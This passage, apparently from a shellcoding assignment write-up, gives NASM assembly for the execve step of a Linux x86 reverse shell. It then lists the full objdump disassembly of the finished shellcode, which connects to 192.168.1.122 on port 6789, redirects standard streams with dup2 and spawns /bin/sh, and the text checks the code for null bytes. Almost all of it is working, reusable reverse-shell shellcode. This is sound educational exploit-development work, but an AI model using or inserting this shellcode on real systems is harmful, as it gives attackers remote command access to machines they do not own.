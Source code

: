 ### execve
Finally, we actually exec /bin/sh to complete the reverse shell.  At this point the target of the reverse shell should be able to enter commands and see responses.
```nasm
mov al,0xb          ; execve
xor edx,edx         ; zero out edx
push edx            ; push edx to stack to terminate string
push 0x68732f6e     ; n/sh
push 0x69622f2f     ; //bi
mov ebx, esp        ; save pointer to stack to ecx
mov ecx, edx        ; argv[]
;mov edx, edx       ; envp[]
int 0x80
```

### Using objdump we can verify no null bytes are in the assembly we just wrote
```nasm
[sengen@manjaro-x86 assignment2]$ objdump -d ./rev_shell_asm -M intel
./rev_shell_asm:     file format elf32-i386

Disassembly of section .text:

08048060 <_start>:
 8048060:	31 c0                	xor    eax,eax
 8048062:	89 c3                	mov    ebx,eax
 8048064:	50                   	push   eax
 8048065:	b0 66                	mov    al,0x66
 8048067:	b3 01                	mov    bl,0x1
 8048069:	53                   	push   ebx
 804806a:	6a 02                	push   0x2
 804806c:	89 e1                	mov    ecx,esp
 804806e:	cd 80                	int    0x80
 8048070:	89 c7                	mov    edi,eax
 8048072:	b0 66                	mov    al,0x66
 8048074:	b3 03                	mov    bl,0x3
 8048076:	68 c0 a8 01 7a       	push   0x7a01a8c0
 804807b:	66 68 1a 85          	pushw  0x851a
 804807f:	66 6a 02             	pushw  0x2
 8048082:	89 e1                	mov    ecx,esp
 8048084:	6a 10                	push   0x10
 8048086:	51                   	push   ecx
 8048087:	57                   	push   edi
 8048088:	89 e1                	mov    ecx,esp
 804808a:	cd 80                	int    0x80
 804808c:	31 c9                	xor    ecx,ecx
 804808e:	89 fb                	mov    ebx,edi
 8048090:	b0 3f                	mov    al,0x3f

08048092 <dup2_loop>:
 8048092:	cd 80                	int    0x80
 8048094:	b0 3f                	mov    al,0x3f
 8048096:	41                   	inc    ecx
 8048097:	83 f9 02             	cmp    ecx,0x2
 804809a:	7e f6                	jle    8048092 <dup2_loop>
 804809c:	b0 0b                	mov    al,0xb
 804809e:	31 d2                	xor    edx,edx
 80480a0:	52                   	push   edx
 80480a1:	68 6e 2f 73 68       	push   0x68732f6e
 80480a6:	68 2f 2f 62 69       	push   0x69622f2f
 80480ab:	89 e3                	mov    ebx,esp
 80480ad:	89 d1                	mov    ecx,edx
 80480af:	cd 80                	int    0x80
```
